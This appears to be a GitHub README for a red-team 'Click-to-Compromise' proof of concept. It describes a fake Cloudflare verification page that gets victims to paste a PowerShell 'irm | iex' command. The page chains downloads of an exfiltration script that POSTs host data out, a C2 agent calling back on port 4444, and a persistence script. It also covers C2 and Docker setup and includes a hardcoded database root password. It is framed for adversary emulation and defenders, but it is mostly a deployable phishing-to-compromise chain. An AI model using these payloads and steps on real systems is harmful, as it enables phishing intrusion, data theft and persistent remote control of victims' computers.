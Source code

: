 # Materials for Click-to-Compromise technique

[This article]() is a deep dive into the **Click-to-Compromise** technique: a minimal-interaction, post-phishing attack chain that transitions from a single PowerShell command into full system compromise. It’s designed for red teamers, malware analysts, adversary emulation professionals, and curious defenders looking to understand modern evasion techniques beyond script kiddie noise.

## The attack chain

<div align="center"> 
  <img src="/resources/attack_chain.png" alt="" />
</div>

## The files

- **c2-server folder:** contains the source code I have used within an IDE (IntelliJ IDEA) to run the C2.
- **website folder:** contains the web files ready to host in a server.
- **payloads folder:** contains the *.ps1* files.

## The setup

I tried to keep the setup as simple as possible for replication purposes: just 2 machines running Windows 11.

### Attacker

I was investigating on Windows 11 OS and the only tools needed are:
- Docker
- VirtualBox
- IDE to run the C2 and modify the code as needed
- Cloudflare Tunnel (setup is out if the scope of this doc)

> **REMEBER: Modify the payloads as needed in all files.**

On Cloudflare Zero Trust, create a tunnel (if you don't have one already) and create a public hostname pointing to your website server local IP. This will be your malicious website that we will need to add in the next step. 

Inside `index.html`:

```javascript
var maliciousCommand = 'powershell -ExecutionPolicy Bypass -NoProfile -Command irm \'<https://your.serverurl.com/payload.html>\' | iex';
```

Inside `payload.html`:

```
Invoke-WebRequest -Uri https://your.serverurl.com/payloads/cloudflare.verification.txt -OutFile $env:USERPROFILE\Desktop\cloudflare.verification.ps1; 
powershell -ExecutionPolicy Bypass -File $env:USERPROFILE\Desktop\cloudflare.verification.ps1
```

Inside `cloudflare.verification.txt`:

```
Invoke-WebRequest -Uri https://your.serverurl.com/payloads/infoexfil.ps1 -OutFile $env:USERPROFILE\Desktop\infoexfil.ps1

Invoke-WebRequest -Uri https://your.serverurl.com/payloads/agent.ps1 -OutFile "$env:USERPROFILE\Desktop\agent.ps1"

Invoke-WebRequest -Uri https://your.serverurl.com/payloads/persist.ps1 -OutFile "$env:USERPROFILE\Desktop\persist.ps1"
```

Inside `infoexfil.ps1`:

```powershell
Invoke-WebRequest -Uri "https://yourmockbin.api.mockbin.io/" -Method POST -Body $body -ContentType "application/json"
```

Inside `agent.ps1`:

```powershell
$C2 = "YOUR IP ADDRESS"
$Port = 4444
```

Inside `persist.ps1`:

```powershell
Invoke-WebRequest -Uri "https://your.serverurl.com/payloads/agent.ps1" -OutFile $payloadPath
```

#### Database

I have used **Docker Desktop**. Run a **MySQL** container with the following **environmental variables**:

```
MYSQL_ROOT_PASSWORD=w0DSQGYPsvARiBVTiwKKH3otYZ4rxKGu
MYSQL_DATABASE=c2server
```

Start the container.

#### C2

Open your preferred IDE and open the C2 files as a project. Then:

1. Run **TestDBConnection** class first to make sure your DB connection is fine and to create the **agents** table
2. Build the artifacts to deploy with **Tomcat**
3. Deploy to **Tomcat** and visit **/server/agents** endpoint

#### Website

I have used NGINX running on Docker. Start the container in your desired port (not 8080, I used a random 6984) and launch a terminal inside the website folder. To copy the files inside the container, run the following commands:

```
docker ps
```
This will list your running containers, identify your server conatiner name. Next, create the `payloads` directory in your server:

```
mkdir /usr/share/nginx/html/payloads
```

Then, launch a terminal inside your website folder and copy the files into your server Docker container with this commands:

```
docker cp index.html clickfix:/usr/share/nginx/html/
docker cp payloads.html clickfix:/usr/share/nginx/html/

docker cp turnstyle.css clickfix:/usr/share/nginx/html/
docker cp turnstile_gif.gif clickfix:/usr/share/nginx/html/
docker cp recaptcha.png clickfix:/usr/share/nginx/html/
```

Now, launch a terminal inside your payloads folder and copy the files into your server Docker container with this commands::

```
docker cp cloudflare.verification.ps1 clickfix:/usr/share/nginx/html/payloads/
docker cp infoexfil.ps1 clickfix:/usr/share/nginx/html/payloads/
docker cp persist.ps1 clickfix:/usr/share/nginx/html/payloads/
docker cp persist.ps1 clickfix:/usr/share/nginx/html/payloads/
``` 

### Victim

For the victim, I used a VirtualBox VM running **Windows 11 (24H2)** in bridged adapter mode. Then I just installed Chrome to access the website.

#### VM config

<div align="left"> 
  <img src="/resources/win_11_setup.png" width="500" alt="" />
</div>

## The attack

Once everything is running and tested, let's infect the victim machine. To do so, inside your victim VM just visit your malicious website and follow the prompt as an innocent victim would. If you did everything right, you should see how the files get downloaded in the Desktop and, after a minute or so, how the agent appears in your C2 agents panel at **/server/agents**.

This PoC video briefly shows how everything works including persistence after reboot.

https://github.com/user-attachments/assets/7a59ae1a-8eca-4d59-8513-4921c8803b61


